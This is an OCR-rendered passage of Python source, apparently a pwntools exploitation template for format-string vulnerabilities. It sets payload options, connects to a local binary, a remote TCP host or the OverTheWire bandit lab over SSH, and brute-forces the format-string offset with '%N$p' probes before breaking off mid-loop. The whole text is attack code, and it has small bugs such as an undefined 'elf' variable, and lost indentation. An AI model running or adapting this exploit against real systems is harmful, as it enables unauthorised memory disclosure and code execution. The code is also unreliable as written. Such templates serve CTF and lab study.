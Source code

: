 ```python

# In order to exploit the format string you may need to append/prepend some string to the payload
# configure them here
PREFIX_PAYLOAD = b""
SUFFIX_PAYLOAD = b""
NNUM_ALREADY_WRITTEN_BYTES = 0
MAX_LENTGH = 999999 #Big num if not restricted

print(" ====================== ")
print("Selected options:")
print(f"PREFIX_PAYLOAD: {PREFIX_PAYLOAD}")
print(f"SUFFIX_PAYLOAD: {SUFFIX_PAYLOAD}")
print(f"NNUM_ALREADY_WRITTEN_BYTES: {NNUM_ALREADY_WRITTEN_BYTES}")
print(" ====================== ")


def connect_binary():
global P, ELF_LOADED, ROP_LOADED

if LOCAL:
P = process(LOCAL_BIN) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTETTCP:
P = remote('10.10.10.10',1338) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTESSH:
ssh_shell = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0', port=2220)
P = ssh_shell.process(REMOTE_BIN) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(elf)# Find ROP gadgets


#######################################
### Get format string configuration ###
#######################################

def send_payload(payload):
payload = PREFIX_PAYLOAD + payload + SUFFIX_PAYLOAD
log.info("payload = %s" % repr(payload))
if len(payload) > MAX_LENTGH: print("!!!!!!!!! ERROR, MAX LENGTH EXCEEDED")
P.sendline(payload)
sleep(0.5)
return P.recv()


def get_formatstring_config():
global P

for offset in range(1,1000):
connect_binary()
P.clean()

payload = b"AAAA%" + bytes(str(offset), "utf-8") + b"$p"
recieved = send_payload(payload).strip()

if b"41" in recieved:
for padlen in range(0,4):
if b"41414141" in recieved:
connect_binary()
```